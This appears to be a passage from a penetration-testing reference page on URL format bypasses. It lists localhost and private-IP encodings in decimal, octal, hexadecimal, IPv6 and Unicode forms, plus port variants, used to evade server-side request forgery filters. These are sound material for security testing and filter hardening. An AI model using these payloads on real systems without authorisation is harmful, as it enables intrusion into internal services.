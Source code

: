# URL Format Bypass

{{#include ../../banners/hacktricks-training.md}}

### Localhost
```bash
# Localhost
0 # Yes, just 0 is localhost in Linuc
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://127.1:80
http://127.000000000000000.1
http://0
http:@0/ --> http://localhost/
http://0.0.0.0:80
http://localhost:80
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:3128/ Squid
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
http://①②⑦.⓪.⓪.⓪

# CDIR bypass
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0

# Dot bypass
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821

# Decimal bypass
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1

# Octal Bypass
http://0177.0000.0000.0001
http://00000177.00000000.00000000.00000001
http://017700000001

# Hexadecimal bypass
127.0.0.1 = 0x7f 00 00 01
http://0x7f000001/ = http://127.0.0.1
http://0xc0a80014/ = http://192.168.0.20
0x7f.0x00.0x00.0x01
0x0000007f.0x00000000.0x00000000.0x00000001

# Mixed encodings bypass
169.254.43518 -> Partial Decimal (Class B) format combines the third and fourth parts of the IP address into a decimal number
0xA9.254.0251.0376 -> hexadecimal, decimal and octal

# Add 0s bypass
127.000000000000.1

# You can also mix different encoding formats
# https://www.silisoftware.com/tools/ipconverter.php

# Malformed and rare
```
